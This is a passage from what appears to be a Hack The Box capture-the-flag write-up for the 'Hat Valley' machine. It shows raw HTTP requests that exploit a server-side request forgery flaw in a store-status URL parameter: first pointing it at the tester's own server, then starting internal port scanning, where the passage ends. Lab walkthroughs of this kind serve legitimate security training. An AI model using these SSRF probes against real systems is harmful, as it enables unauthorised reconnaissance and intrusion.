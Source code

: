 ```html
GET /api/store-status?url=%22http:%2F%2Fstore.hat-valley.htb%22 HTTP/1.1
Host: hat-valley.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://hat-valley.htb/dashboard
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjcyNDMyMzUxfQ.7YS1QAXwzDtj__tSeUUAg2pINnvxxA1hBmOof4-HEkQ
```

- This url parameter is really interesting. If we add it to our repeater and set up a python web server we can see if it actually makes a request to our server. So let's try this  

```html
GET /api/store-status?url=%22http%3a%2f%2f10.10.14.10%2ftest%22 HTTP/1.1
Host: hat-valley.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://hat-valley.htb/dashboard
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjcyNDMyMzUxfQ.7YS1QAXwzDtj__tSeUUAg2pINnvxxA1hBmOof4-HEkQ
```

- And it works our server receives the request  

![Request received](../.res/2022-12-30-15-57-33.png)  

- The first step in ssrf is usually to check if we have open ports on the target.
We can see that we do not get the same response when a port is open than when it is closed:
  - Port open.

![Port open](../.res/2023-01-02-15-22-19.png)
